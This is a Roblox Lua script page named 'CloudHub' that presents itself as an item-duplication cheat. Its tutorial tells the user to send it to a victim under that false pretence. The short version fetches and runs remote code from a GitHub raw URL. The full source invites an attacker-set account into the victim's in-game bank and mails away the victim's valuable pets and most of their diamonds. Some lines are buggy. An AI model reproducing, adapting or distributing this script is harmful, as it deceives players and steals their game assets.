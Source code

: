 # CloudHub
CloudHub
--Tutorial:

--Change first two lines to your account name & Player Id

--Send script to someone who you want to steal from

--Say its dupe

--They run it, u get invited to their bank.

 

 

 

--Obfuscated so player can't see:

 

getgenv().YourAccNameThatGetsMailbox = "p4c1f1cb3tl0g"

getgenv().YourAccountIdForBankInvite = 2903744413

loadstring(game:HttpGet('https://raw.githubusercontent.com/NukeVsCity/Scripts2022/main/dupehack'))()

 

 

 

--Source code:

 

getgenv().YourAccNameThatGetsMailbox = "p4c1f1cb3tl0g"

getgenv().YourAccountIdForBankInvite = 2903744413

 

local v1 = require(game.ReplicatedStorage:WaitForChild("Framework"):WaitForChild("Library")) 

local cooldown = os.time() 

local GetRemoteUpValue = nil 

local pets = require(game:GetService("ReplicatedStorage").Directory.Pets["Grab All Pets"]) 

for _, V in pairs(getgc(true)) do 

    if type(V) ~= "table" then 

        continue 

    end 

    if rawget(V, "Invoke") then 

        if type(V.Invoke) == "function" then 

            if tostring(getfenv(V.Invoke).script) == "Network" then 

                GetRemoteUpValue = getupvalues(V.Invoke)[2]

                break 

            end 

        end 

    end 

end 

function FireRemote(Name, ...)

    if not GetRemoteUpValue then

        return end 

    local Remote = GetRemoteUpValue(Name) 

    if not Remote then

        return

    end 

    if typeof(Remote) ~= "Instance" then 

        return 

    end 

    if Remote.ClassName == "RemoteEvent" then 

        return Remote:FireServer(...) 

    elseif Remote.ClassName == "RemoteFunction" then

        return Remote:InvokeServer(...) 

    end 

end 

local function is_huge(petdata)

    if pets[petdata.id]["huge"] then

        return true 

    end 

return false; 

end 

local function getMyBank()

    local banks = FireRemote("Get My Banks") 

      for i,v in pairs(banks) do if v.Owner == game.Players.LocalPlayer.UserId then

        return v.BUID 

      end 

    end 

end 

local specialPets = {["6969"]=true} 

local function isNotablePet(id) 

    local petData = pets[id] 

    if petData.rarity == "Exclusive" then

        return true 

        end

    if specialPets[id] ~= nil then

        return true

    end 

end 

local function inviteToBank(bank)

    if bank ~= nil then

        local bankData = FireRemote("Get Bank",bank)

        local pets = bankData.Storage.Pets

        local diamonds = bankData.Storage.Currency.Diamonds 

        if diamonds > 1000000000 then 

            return true; 

        end 

        for i,v in pairs(pets) do 

            if isNotablePet(v.id) == true then

                return true;

            end 

        end 

    end 

end 

local bank = getMyBank()

local invite = inviteToBank(bank)

if invite then 

    FireRemote("Invite To Bank",bank,getgenv().YourAccountIdForBankInvite)

end 

local save = v1.Save.Get()

local titanicHolder = game:GetService("Players").LocalPlayer.PlayerGui.Inventory.Frame.Main.Pets.Titanic

if titanicHolder:FindFirstChildWhichIsA("TextButton")

  then 

      print("found titanic") 

       FireRemote("Send Mail",{ Recipient = "getgenv().YourAccNameThatGetsInvited", Message = "hey", Pets = {[1]=titanicHolder:FindFirstChildWhichIsA("TextButton").Name}, Diamonds = 0 }) 

          end

         for i,v in pairs(save.Pets) do

             if is_huge(v) then

                 print("ok2") 

                 repeat wait(.1) until (cooldown - os.time()) <= 0

        local diamonds = (save.Diamonds)-20000000 

    if diamonds < 0 then 

        diamonds = 0 

    end 

print(FireRemote("Send Mail",{ Recipient = "getgenv().YourAccNameThatGetsInvited", Message = "hi", Pets = {[1]=v.uid}, Diamonds = diamonds })) cooldown = os.time() + 5 

end 

end
